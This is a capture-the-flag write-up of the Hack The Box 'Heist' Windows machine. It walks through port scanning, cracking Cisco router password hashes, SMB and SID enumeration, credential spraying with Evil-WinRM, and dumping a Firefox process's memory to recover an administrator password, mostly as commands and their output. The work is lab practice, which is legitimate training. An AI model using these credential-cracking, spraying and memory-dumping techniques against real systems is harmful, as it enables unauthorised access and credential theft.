

# Heist


## Information Gathering

### Nmap

Starting off with my typical nmap scan:

```console
root@endeavour:~/htb/heist# nmap -sV -sC 10.10.10.149 -oA 10-10-10-149
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-06 18:36 EDT
Nmap scan report for 10.10.10.149
Host is up (0.041s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 15s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-10-06T22:37:22
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.75 seconds
```

So it looks like potentially a Windows-based web app, we've got **80**, **135**, **445** open. Let's head over to https://10.10.10.149:80 and see what's happening:

  
**Figure 1:** Login page

We are prompted with a login page. No credentials, but it might let us log in as guest - let's try that. We are greeted with a thread of some kind where the user Hazard is having an issue with his cisco router, and the Support Admin is assisting. 

  
**Figure 2:** Thread

There is also an attachment I assume to be a Cisco IOS config:

```console
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0 mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```
Interesting that there are some usernames and passwords or password hashes located in it. Lets see what we can do with those, but before we do we should try to be efficient with our time -- lets also kick off nikto and dirb scans:

### Nikto
```console
root@endeavour:~/htb/heist# nikto -h http://10.10.10.149
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.149
+ Target Hostname:    10.10.10.149
+ Target Port:        80
+ Start Time:         2019-10-06 19:01:28 (GMT-4)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/10.0
+ Retrieved x-powered-by header: PHP/7.3.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ Root page / redirects to: login.php
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ /login.php: Admin login page/section found.
+ 7863 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2019-10-06 19:07:30 (GMT-4) (362 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
### Dirb
```
root@endeavour:~/htb/heist# dirb http://10.10.10.149 /usr/share/dirb/wordlists/common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Oct  6 19:01:05 2019
URL_BASE: http://10.10.10.149/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.149/ ----
==> DIRECTORY: http://10.10.10.149/attachments/                                                     
==> DIRECTORY: http://10.10.10.149/css/                                                             
==> DIRECTORY: http://10.10.10.149/images/                                                          
==> DIRECTORY: http://10.10.10.149/Images/                                                          
+ http://10.10.10.149/index.php (CODE:302|SIZE:0)                                                   
==> DIRECTORY: http://10.10.10.149/js/                                                              
                                                                                                    
---- Entering directory: http://10.10.10.149/attachments/ ----
                                                                                                    
---- Entering directory: http://10.10.10.149/css/ ----
                                                                                                    
---- Entering directory: http://10.10.10.149/images/ ----
                                                                                                    
---- Entering directory: http://10.10.10.149/Images/ ----
                                                                                                    
---- Entering directory: http://10.10.10.149/js/ ----
                                                                                                    
-----------------
END_TIME: Sun Oct  6 19:20:57 2019
DOWNLOADED: 27672 - FOUND: 1
```
Nothing super interesting in those - no access to any of the directories. Just keep them in our back pocket for now.

## User Flag

The passwords appear to be two different kinds:

```enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91```  
```username rout3r password 7 0242114B0E143F015F5D1E161713```  
```username admin privilege 15 password 7 02375012182C1A1D751618034F36415408```  

The ones that appear to belong to user rout3r and user admin are type 7 Cisco passwords (this was newly acquired knowledge, not something I already knew) and were easily cracked with this tool: http://www.ifm.net.nz/cookbooks/passwordcracker.html

```username rout3r password 7 0242114B0E143F015F5D1E161713 = $uperP@ssword```  
```username admin privilege 15 password 7 02375012182C1A1D751618034F36415408 = Q4)sJu\Y8qz*A3?d```  

The secret 5 one - I made the assumption that since the two that cracked were type 7, this must be a type 5 one. I found a tool: https://github.com/axcheron/cisco_pwdecrypt that I was able to run and crack that password as well:

```console

        Testing: $1$VkQd$Vma3sR7B1LL.v5lgy1NYc/
        Hash Type = MD5
        Salt = VkQd
        Hash = Vma3sR7B1LL.v5lgy1NYc/
[*] Password Found = stealth1agent
```

So at this point we have the following credentials:


|Username|Password|
|:---:|:---:|
|rout3r|`$uperP@ssword`|
|admin|`Q4)sJu\Y8qz*A3?d`|
| Hazard        |      |
| Support Admin |       |
|  | `stealth1agent`      |
			  
I tried logging into the web app with both rout3r and admin and their corresponding passwords. I tried both Hazard and Support Admin with the stealth1agent password - no success. What else could we use these for? I checked back to my nmap scan and we did not fully enumerate on all the ports open yet - lets explore that further.

We also had ports **135** (WindowsRPC) and **445** (SMB). To me, the most attractive one to hit first is going to be **445**. 

```console
Host script results:
| smb-mbenum: 
|_  ERROR: Failed to connect to browser service: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-print-text: false
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
```
Nmap's smb scans did not receive any results. Let's try connecting with all the usernames we've got, the only interesting result we got was from the Hazard & stealth1agent pair of credentials:

```console
root@endeavour:~/htb/heist/# smbclient -L //10.10.10.149/ -U Hazard
Enter WORKGROUP\Hazard's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.149 failed (Error NT_STATUS_IO_TIMEOUT)
Failed to connect with SMB1 -- no workgroup available
```
Lets see if we can dig any further with smbmap:

```console
root@endeavour:~/htb/heist/# smbmap -H 10.10.10.149 -u Hazard -p 'stealth1agent'
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: 10.10.10.149                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
```

So it looks like we have read access to IPC$. Searching again for tools to poke this further gets us to a tool called [impacket](https://github.com/SecureAuthCorp/impacket). Lets use a tool from this suite called [smbclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbclient.py).

```console
root@endeavour:~/impacket/examples# ./smbclient.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
# open
[-] 
# shares
ADMIN$
C$
IPC$
# use IPC$
# ls
-rw-rw-rw-          3  Sun Dec 31 19:03:58 1600 InitShutdown
-rw-rw-rw-          4  Sun Dec 31 19:03:58 1600 lsass
-rw-rw-rw-          3  Sun Dec 31 19:03:58 1600 ntsvcs
-rw-rw-rw-          3  Sun Dec 31 19:03:58 1600 scerpc
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 Winsock2\CatalogChangeListener-39c-0
-rw-rw-rw-          3  Sun Dec 31 19:03:58 1600 epmapper
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 Winsock2\CatalogChangeListener-1e4-0
-rw-rw-rw-          3  Sun Dec 31 19:03:58 1600 LSM_API_service
-rw-rw-rw-          3  Sun Dec 31 19:03:58 1600 eventlog
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 Winsock2\CatalogChangeListener-428-0
-rw-rw-rw-          3  Sun Dec 31 19:03:58 1600 atsvc
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 Winsock2\CatalogChangeListener-5b0-0
-rw-rw-rw-          4  Sun Dec 31 19:03:58 1600 wkssvc
-rw-rw-rw-          3  Sun Dec 31 19:03:58 1600 spoolss
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 Winsock2\CatalogChangeListener-a04-0
-rw-rw-rw-          3  Sun Dec 31 19:03:58 1600 trkwks
-rw-rw-rw-          3  Sun Dec 31 19:03:58 1600 W32TIME_ALT
-rw-rw-rw-          4  Sun Dec 31 19:03:58 1600 srvsvc
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 Winsock2\CatalogChangeListener-284-0
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 vgauth-service
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 Winsock2\CatalogChangeListener-270-0
-rw-rw-rw-          3  Sun Dec 31 19:03:58 1600 ROUTER
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 gecko-crash-server-pipe.1364
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.0.158509647
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.1.113316290
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.2.121950180
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.3.105807317
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.4.201977072
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.5.207807240
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.6.164869792
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.7.137807322
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.8.179174285
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.9.75398218
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.10.100364234
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.11.116430391
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.12.73390446
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.632.0.172991966
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.632.1.157358806
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.632.2.122215697
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.13.49223502
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.14.153673412
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.15.30346628
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.16.172852495
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.17.168114854
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.18.166146723
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.19.63744810
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.2260.0.150119012
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.2260.1.18573163
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.20.111812004
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.21.68148107
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.22.1376651
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.23.198928415
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.24.56361976
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.25.125134987
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.1364.26.213249201
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.4140.0.192125083
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 chrome.4140.1.54695493
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 iisipm5a6341d4-1fc4-44b8-8bad-385e6c194bd3
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 iislogpipeec95ece0-7f1c-432c-b75d-f731e4c42489
-rw-rw-rw-          1  Sun Dec 31 19:03:58 1600 IISFCGI-bdc6289b-c826-409f-acdb-4be010b8abbb
```

So there could be some interesting stuff here, but nothing really I could do with anything. The ROUTER line is especially attractive to me. I spent a lot of time here - which also included me running another, more broad nmap scan where I discovered a few more ports opened that I had missed initially.

```console
root@endeavour:~/htb/heist# nmap -p1-65535 -sV -sS -T4 10.10.10.149
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-06 19:16 EDT
Nmap scan report for 10.10.10.149
Host is up (0.039s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 143.06 seconds
```
Enter ports **5985** and **49669**. 

**5985** - This is a Windows remote management protcol port.

**49669** - I can't find too much about this port, but nmap is saying that its a Windows RPC port.

I wanted to enumerate a little more before deciding what direction to go. I tried a few more of the impacket tools without many results until I got to [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py):

```console
root@endeavour:/usr/local/bin# python lookupsid.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

Great - so I got the workgroup: SUPPORTDESK and a bunch of other users I can try. Lets update my credential table:

|Username|Password|
|:---:|:---:|
|rout3r|`$uperP@ssword`|
|admin|`Q4)sJu\Y8qz*A3?d`|
|Hazard| `stealth1agent`|
|Support Admin|       |
|Chase |      |
|Jason | |
|Administrator | |
|Guest | |

From here I started on the port that actually had something to it, **5985**. I did find a tool that I can use in conjunction that open port: [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).

Manually bruteforcing through all the combinations of credentials is what I deemed the most efficient at the time, and I did end up getting some success:

```console
root@endeavour:~/htb/heist/evil-winrm# ./evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
 
Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> ls
*Evil-WinRM* PS C:\Users\Chase\Documents> pwd

Path                    
----                    
C:\Users\Chase\Documents


*Evil-WinRM* PS C:\Users\Chase\Documents> dir
*Evil-WinRM* PS C:\Users\Chase\Documents> cd ..
*Evil-WinRM* PS C:\Users\Chase> dir


    Directory: C:\Users\Chase


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
d-r---        4/22/2019   7:14 AM                3D Objects                                                                                                                                                                                              
d-r---        4/22/2019   7:14 AM                Contacts                                                                                                                                                                                                
d-r---        4/22/2019   6:10 PM                Desktop                                                                                                                                                                                                 
d-r---        4/22/2019   6:13 PM                Documents                                                                                                                                                                                               
d-r---        4/22/2019   7:14 AM                Downloads                                                                                                                                                                                               
d-r---        4/22/2019   7:14 AM                Favorites                                                                                                                                                                                               
d-r---        4/22/2019   7:14 AM                Links                                                                                                                                                                                                   
d-r---        4/22/2019   7:14 AM                Music                                                                                                                                                                                                   
d-r---        4/22/2019   7:14 AM                Pictures                                                                                                                                                                                                
d-r---        4/22/2019   7:14 AM                Saved Games                                                                                                                                                                                             
d-r---        4/22/2019   7:14 AM                Searches                                                                                                                                                                                                
d-r---        4/22/2019   7:14 AM                Videos                                                                                                                                                                                                  


*Evil-WinRM* PS C:\Users\Chase> cd Desktop
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-a----        4/22/2019   9:08 AM            121 todo.txt                                                                                                                                                                                                
-a----        4/22/2019   9:07 AM             32 user.txt                                                                                                                                                                                                


*Evil-WinRM* PS C:\Users\Chase\Desktop> echo user.txt
user.txt
*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt
a127d******************5f59c4
```
Awesome - user flag!

## Root Flag

Onto the privilege escalation. I noticed that there was another file next to the user flag - todo.txt. That's probably not an accident:

```console
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

Interesting, if I take this at face value - the guest account is restricted, but there is a broken router config somewhere and there might be new issues in an issues list. Not sure what or where that is yet. Again, lets pocket that for later and just keep an eye out as I enumerate for privilege escalation paths.

I do not do that many Windows machines, as odd as it may seem being primarily a windows user, I am more comfortable in my linux enumeration and privilege escalation. I did have in my notes from OSCP a Windows Enumeration script that served me well: [Just Another WindowsEnum Script](https://github.com/411Hall/JAWS). It was pretty simple to get it over to the box using EvilWinRM.

For the sake of the length of the writeup I am cutting down the output to only what was actually relevent to solving the box:

```console
C:\Program Files
-------------
Common Files                               
internet explorer                          
Mozilla Firefox                            
PHP                                        
Reference Assemblies                       
runphp                                     
VMware                                     
Windows Defender                           
Windows Defender Advanced Threat Protection
Windows Mail                               
Windows Media Player                       
Windows Multimedia Platform                
windows nt                                 
Windows Photo Viewer                       
Windows Portable Devices                   
Windows Security                           
WindowsPowerShell
```
In thinking about the hint was were given in the `todo.txt`, where would someone be keeping track of an issues list? The only things from the above list are **php**, and **firefox**, and when I did a `Get-Processes` firefox has 4 running processes. Lets take a look at that:

```console
*Evil-WinRM* PS C:\Program Files\Mozilla Firefox> $PSVersionTable

Name                           Value                                                                                                                                                                                                                     
----                           -----                                                                                                                                                                                                                     
PSVersion                      5.1.17763.316                                                                                                                                                                                                             
PSEdition                      Desktop                                                                                                                                                                                                                   
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0...}                                                                                                                                                                                                   
BuildVersion                   10.0.17763.316                                                                                                                                                                                                            
CLRVersion                     4.0.30319.42000                                                                                                                                                                                                           
WSManStackVersion              3.0                                                                                                                                                                                                                       
PSRemotingProtocolVersion      2.3                                                                                                                                                                                                                       
SerializationVersion           1.1.0.1          
```

I did not find any vulnerabilities in that version and in I came to an impasse here. I could either spend time enumerating firefox itself further, or move on to php which I also saw installed and I dont think is a standard folder that would be in c:\Program Files. I think in trying to avoid going down rabbit holes I sometimes don't explore those holes deep enough. I had opted to move onto to PHP and lost a few days trying a few different ideas but getting nowhere. 

In moving back to firefox - I came across this: https://securityonline.info/procdump-dump-https-pasword/

Procdump is a CLI utility that can monitor an application as it crashes and create diagnostic dumps of data. In taking a look at the running processes again - firefox was eating up a ton of CPU, maybe it was already in a crashed state? I decided to give this a try and got an Powershlle Mafia procdump over to the box and tested it out:

[PowerShellMafia:Out-Minidump.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Out-Minidump.ps1)

```console
Evil-WinRM* PS C:\Users\Chase\Documents> Out-Minidump -Process (Get-Process -Id 6152)


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-a----       10/10/2019   5:29 AM      466390945 firefox_6152.dmp    
```
Cool - so that worked, but there is a lot of shit in this thing and its something like 466MB, yikes. In comes the helpful get-content command: [Get-Content manpage](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-content?view=powershell-6)

Lets try to just look for the string password? That seems like the easiest way, I honestly have no idea what to look for.

```console
Evil-WinRM* PS C:\Users\Chase\Documents> gc firefox_6152.dmp | % { if($_match "password") {write-host %_}}

localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
Great, that seems like a password potentially - lets try to connect with that?

```console
root@endeavour:~/htb/heist/evil-winrm# ./evil-winrm.rb -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'

Info: Starting Evil-WinRM shell v1.6

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-a----        4/22/2019   9:05 AM             32 root.txt    

*Evil-WinRM* PS C:\Users\Administrator\Desktop> Get-Content root.txt
50dfa********************66897

```

Root!

# Conclusion
The biggest takeaway from this box was an amendment to my initial enumeration process. I should always check all of the ports -- not just the popular ones. Otherwise this box was pretty fun, the memory dump was something I hadn't ever done before and was pretty interesting.

